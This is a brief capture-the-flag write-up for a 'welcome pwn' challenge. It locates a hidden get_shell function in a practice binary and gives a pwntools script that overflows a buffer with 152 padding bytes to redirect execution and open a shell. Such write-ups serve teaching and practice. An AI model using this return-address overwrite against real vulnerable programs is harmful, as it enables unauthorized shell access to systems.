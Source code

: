 # welcome pwn

## solution
first let's display every section of the binary

![](objdump.png)

we notice here the string **/bin/sh** at the offset **40200**
let's check that offset with IDA

![](ida.png)

Yup we can confirm the this function will exectue a shell for us 
it loads the address of /bin/sh then executes system 
we will write a script that will make us jump to the get_shell function


```python
from pwn import * 

io = process('./welcome')


get_shell = 0x0401187

payload = ""
payload += "A" * 152
payload += p64(get_shell)


io.sendline(payload)
io.interactive()
```
